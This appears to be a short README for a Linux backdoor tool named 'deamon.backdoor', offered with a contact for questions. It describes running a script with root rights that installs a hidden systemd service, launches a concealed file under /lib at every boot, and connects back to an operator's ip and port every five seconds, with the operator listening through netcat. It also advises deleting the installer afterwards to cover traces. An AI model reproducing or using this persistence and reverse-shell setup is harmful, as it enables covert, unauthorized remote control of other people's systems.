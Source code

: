 # deamon.backdoor

Example Command
 `sudo ./drax.sh <ip> <port> `
 
This script will create a deamon and enable him `/etc/systemd/system/smd.service`

The deamon will start the created backdoor `/lib/.smd.sh` every time the system starts

The backdoor trys to connect to the given ip/port every 5 seconds. You can connect to the backdoor with `nc -lvpn <port>`

### Make sure to delete the drax.sh file after its executed

### t.me/VENDOMP for questions
